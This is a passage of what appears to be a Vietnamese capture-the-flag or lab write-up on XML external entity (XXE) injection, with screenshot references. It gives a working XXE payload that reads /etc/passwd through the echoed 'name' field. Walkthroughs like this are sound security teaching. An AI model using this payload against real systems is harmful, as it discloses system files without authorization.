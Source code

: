 Khả năng sẽ có XXE ở đây, `name` được in trong kết quả, vậy ta hãy inject vào đây.

![](images/40.png)

```xml
<?xml version="1.0"?>

<!DOCTYPE payload [

  <!ENTITY payload SYSTEM "file:///etc/passwd">

]>
            <root>
            <name>&payload;</name>
            <details>testing</details>
            <date>2025-07-12</date>
            </root>

```

![](images/41.png)
